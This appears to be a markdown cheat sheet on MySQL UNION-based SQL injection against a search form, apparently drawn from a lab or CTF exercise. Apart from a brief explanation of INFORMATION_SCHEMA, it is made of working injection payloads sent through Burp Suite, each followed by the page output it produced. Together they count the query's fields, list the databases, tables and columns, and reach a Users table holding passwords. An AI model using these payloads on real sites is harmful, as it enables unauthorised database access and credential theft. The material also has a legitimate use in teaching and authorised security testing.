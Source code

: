 * [`sqlmap`](#sqlmap)
* [INFORMATION_SCHEMA](#information_schema)
  * [INFORMATION_SCHEMA Tables](#information_schema-tables)
* [Manual Methods](#manual-methods)
  * [enumerate fields of search query](#enumerate-fields-of-search-query)
  * [enumerate databases](#enumerate-databases)
  * [enumerate tables](#enumerate-tables)
  * [enumerate columns](#enumerate-columns)

# `sqlmap`

# INFORMATION_SCHEMA
Refs:
* <https://www.cmi.ac.in/~madhavan/courses/databases10/mysql-5.0-reference-manual/information-schema.html#schemata-table>

INFORMATION_SCHEMA provides access to database metadata.

Metadata is data about the data, such as the name of a database or table, the data type of a column, or access privileges. INFORMATION_SCHEMA is the information database, the place that stores information about all the other databases that the MySQL server maintains. Inside INFORMATION_SCHEMA there are several read-only tables. They are actually views, not base tables, so there are no files associated with them.
## INFORMATION_SCHEMA Tables
* <https://dev.mysql.com/doc/refman/8.0/en/columns-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/schemata-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/st-units-of-measure-table.html>

# Manual Methods
## enumerate fields of search query
In burpsuite, go to repeater mode and keep on increasing the numbers till the fields of search query gets printed on the webpage
```
search=killer' UNION SELECT 1,2,3,4,5,6-- -
```
```
<h3>Search results </h3>
ID: 1<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate databases
### current database
```
search=killer' UNION SELECT database(),2,3,4,5,6-- -
```
```
<h3>Search results </h3> 
ID: Staff<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
### using INFORMATION_SCHEMA
```
search=killer' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
```
<h3>Search results </h3> 
ID: information_schema<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: Staff<br/>Name: 2 3
<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email:
6<br/>
```
### all databases
```
search=killer' UNION SELECT GROUP_CONCAT(SCHEMA_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
```
<h3>Search results </h3>
ID: information_schema,Staff,users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate tables
```
search=killer' UNION SELECT GROUP_CONCAT(TABLE_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA="Staff"-- -
```
```
<h3>Search results </h3> 
ID: StaffDetails,Users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate columns
```
search=killer' UNION SELECT GROUP_CONCAT(COLUMN_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA="Staff" AND TABLE_NAME="Users"-- -
```
```
<h3>Search results </h3>
ID: UserID,Username,Password<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
